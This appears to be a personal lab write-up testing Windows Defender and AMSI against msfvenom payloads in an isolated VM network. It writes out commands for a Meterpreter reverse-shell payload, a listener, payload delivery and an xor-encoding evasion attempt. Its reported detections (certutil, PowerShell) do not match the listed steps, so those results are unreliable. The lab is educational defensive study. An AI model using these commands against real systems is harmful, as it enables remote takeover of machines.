



# Day 24/100 - Windows Defender Evasion Lab

Testing signature-based detection vs basic msfvenom payloads on Windows 10.

## Lab Goal
Understand how Windows Defender + AMSI detects and blocks commodity malware, and test basic encoding evasion techniques.

## Lab Environment
| Component | Details |
| --- | --- |
| Attacker | Kali Linux 2024.4 |
| Target | Windows 10 Pro 22H2 VM |
| Network | VirtualBox Host-Only 192.168.56.0/24 |
| Tools | msfvenom, msfconsole, Windows Defender, AMSI |

## Attack Chain

### 1. Recon

nmap -sV -sC 192.168.56.104

Found open ports: 135, 445

2. Generate Basic Payload

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=4444 -f exe > shell.exe

3. Start Listener

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.103
set LPORT 4444
exploit -j

4. Host and Deliver

python3 -m http.server 8080

Download from target: `http://192.168.56.103:8080/shell.exe`

5. Test Encoding Evasion

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=4444 -e x64/xor -i 5 -f exe > shell_encoded.exe

Results

Result 1: Signature Detection
Windows Defender + Edge SmartScreen blocked `shell.exe` on download.

Result 2: AMSI + Threat Detection Logs
`Get-MpThreatDetection` shows 2 detections:
1. `certutil.exe` LOLBAS abuse
2. Malicious PowerShell flagged by AMSI

Get-MpThreatDetection

Conclusion
Basic payloads are caught instantly by modern Defender. Signature detection + AMSI + SmartScreen provide layered defense.

Key Learnings
- Signature-based AV still stops 90% of known payloads
- AMSI inspects PowerShell in memory before execution
- LOLBAS tools like certutil are monitored
- Encoding alone is not enough to bypass modern EDR

Disclaimer
This lab was conducted in an isolated VM environment for educational purposes only. Do not use these techniques on systems you do not own or have explicit permission to test.
